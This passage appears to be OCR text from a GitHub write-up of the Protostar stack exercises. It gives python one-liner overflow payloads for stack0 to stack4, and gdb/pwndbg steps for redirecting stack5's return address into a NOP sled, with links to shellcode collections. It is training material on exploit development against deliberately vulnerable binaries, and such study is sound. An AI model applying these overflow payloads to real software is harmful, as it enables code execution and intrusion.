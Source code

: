 8. Observe the RIP register now points RSP now points to:
   `0x7fffffffde78 —▸ 0x400537 (win)`

9. > continue
   ```
   Continuing.
   code flow successfully changed
   ```


# stack5: NOP Sled Buffer Overflow 
------------------------------------------------------------------------

+ Note that /x90 is the opcode for the NOP (no operation) assembly instruction

[Shellcode]: http://shell-storm.org/shellcode/
Example uses: http://shell-storm.org/shellcode/files/shellcode-811.php


[Detailed]: Step-by-Step
1. `chmod +x stack5`
2. `python -c "print '\x90' * 72 + '\x37\x05\x40\x00\x00\x00'" > arg`
                              ^may need to play with this number

   Put this output into a file called arg

2. `gdb stack5`
3. gdb> break main
4. gdb> run < arg
   Run this executable while taking in the contetns of the arg file as input

5. gdb> next 9


6. Look at the stack
	pwndbg> telescope $rbp-$rsp-68
	gef>  dereference $rbp-$rsp-

	Should see something like (pwndbg):
	```
    00:0000│ rsp    0x7fffffffe360 —▸ 0x7fffffffe498 —▸ 0x7fffffffe6f5 ◂— '/home/user/protostar/stack5'
    01:0008│        0x7fffffffe368 ◂— 0x100000001
    02:0010│ rax    0x7fffffffe370 ◂— 0x9090909090909090
    ... ↓
    0b:0058│ rdi-6  0x7fffffffe3b8 ◂— 0x0
	```


7. Note that the address where the NOP (\x90) opcodes start at `0x7fffffffe370`.
                                                                ^beginning of buffer


8. We will be replacing the address in arg (separate terminal):
   `python -c "print '\x90' * 72 + '\x70\xe3\xff\xff\xff\x7f'" > arg`


9. Redo steps 2-6

	Stack should now look like (pwndbg):
	```
	00:0000│ rsp    0x7fffffffde20 —▸ 0x7fffffffdf58 —▸ 0x7fffffffe282 ◂— '/home/user/protostar/stack5'
    01:0008│        0x7fffffffde28 ◂— 0x100000001
    02:0010│ rax    0x7fffffffde30 ◂— 0x9090909090909090
    ... ↓
    0b:0058│ rdi-6  0x7fffffffde78 —▸ 0x7fffffffde30 ◂— 0x9090909090909090
	```
	                 ^ we are now pointing back to the beginning of the buffer at `0x7fffffffe370`


[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef
[My gdbinit]: $ cat ~/.gdbinit
[Reference Stack 0-5]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
[Simple]: python -c "print 'A' * 77" | ./stack0
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
[Simple]: Step-by-Step
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4